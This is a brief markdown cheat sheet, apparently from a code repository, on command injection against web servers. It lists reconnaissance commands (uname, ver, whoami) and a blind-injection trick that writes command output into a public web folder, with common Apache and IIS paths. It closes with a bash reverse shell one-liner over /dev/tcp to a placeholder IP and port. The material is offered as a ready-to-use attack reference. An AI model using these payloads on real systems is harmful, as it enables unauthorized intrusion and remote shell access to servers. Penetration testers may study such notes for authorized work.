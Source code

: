 # Command Injection
## OS
Bash - `uname -a`
Cmd - `ver`

## User
Bash - `whoami`

## Blind Command Injection
### Redirect to Public Folder
** Enumerate a public subdirectory first. Useful to see where images/favicons are served from **
Bash - `<COMMAND> > <WEB FOLDER>/<PUBLIC FOLDER>/out.txt`
#### Common Web Folders
Apache - `/var/www`
IIS - `C:\inetpub\wwwroot`

#### Common Sub Folders
`images`
`config`
`public`
`static`

## Reverse Shell
Bash - `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
